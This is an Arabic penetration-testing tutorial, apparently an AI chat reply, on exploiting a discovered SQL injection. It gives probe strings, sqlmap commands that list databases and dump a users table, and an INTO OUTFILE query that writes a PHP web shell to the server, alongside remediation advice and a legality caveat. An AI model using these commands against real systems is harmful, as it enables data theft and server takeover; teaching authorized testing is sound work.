 في اختبار الاختراق (Penetration Testing) بعد اكتشاف ثغرة **SQL Injection**، هناك عدد من الخطوات التي يمكنك اتباعها لاستغلال الثغرة وتقييم مدى خطورتها على النظام. هذه الخطوات تساعدك في فهم مدي تأثير الثغرة وتوفر لك المعلومات اللازمة لرفع تقرير أمني شامل.

### 1. **تأكيد وجود الثغرة**
- قم بتنفيذ استعلامات بسيطة للتأكد من أن الثغرة موجودة مثل إدخال `'` أو `" OR 1=1 --` وملاحظة إذا كانت تؤدي إلى ظهور أخطاء SQL أو سلوك غير طبيعي .
  
### 2. **تحديد نوع SQL Injection المتاح**
- حدد ما إذا كان بالإمكان تنفيذ:
  - **In-band SQLi** (مثل Error-based أو Union-based): حيث يتم استرجاع البيانات مباشرة.
  - **Blind SQLi**: حيث لا تظهر بيانات مباشرة، ولكن يمكن الاستنتاج من سلوك التطبيق.
  - **Out-of-band SQLi**: نادر الحدوث ويحتاج إلى خوادم خارجية لتلقي البيانات .

### 3. **جمع معلومات عن قاعدة البيانات**
- استخدم أدوات مثل **sqlmap** لاكتشاف اسم قاعدة البيانات، الإصدار، الجداول، والأعمدة الموجودة داخلها:
  ```bash
  sqlmap -u "http://example.com/page.php?id=1" --dbs
  ```
  يمكن استخدام هذا الأمر لسرقة بيانات أو فهم هيكل قاعدة البيانات .

### 4. **استخراج البيانات الحساسة**
- بمجرد تحديد الجداول والحقول الحساسة (مثل كلمات المرور أو بيانات المستخدمين)، يمكنك استخراجها باستخدام نفس الأدوات (مثل sqlmap) .
  ```bash
  sqlmap -u "http://example.com/page.php?id=1" -D database_name -T users --dump
  ```

### 5. **محاولة رفع الصلاحيات أو الوصول إلى Shell**
- في بعض الحالات، يمكن استخدام SQL Injection لكتابة ملف PHP خبيث على الخادم باستخدام الأمر `INTO OUTFILE` إذا توفرت الصلاحيات المناسبة .
  ```sql
  SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'
  ```

### 6. **توثيق النتائج**
- قم بتوثيق جميع المراحل التي مررت بها، بما في ذلك:
  - طريقة الاكتشاف
  - نوع الثغرة
  - البيانات المستخرجة
  - مدى الضرر المحتمل
  - توصيات لإصلاح الثغرة

### 7. **إبلاغ الفرق الأمنية وتقديم الحلول**
- بعد التأكد من الثغرة، يجب عليك إبلاغ الفريق المسؤول مع تقديم توصيات واضحة مثل:
  - استخدام **Parameterized Queries**
  - تنقية إدخالات المستخدم
  - استخدام جدران الحماية WAF
  - تقليل صلاحيات قاعدة البيانات 

> **ملاحظة**: كل هذه الخطوات يجب أن تُجرى ضمن نطاق قانوني وموافق عليه، وليس ضد أنظمة بدون إذن .

هل ترغب في أمثلة عملية على كيفية تنفيذ كل خطوة باستخدام sqlmap؟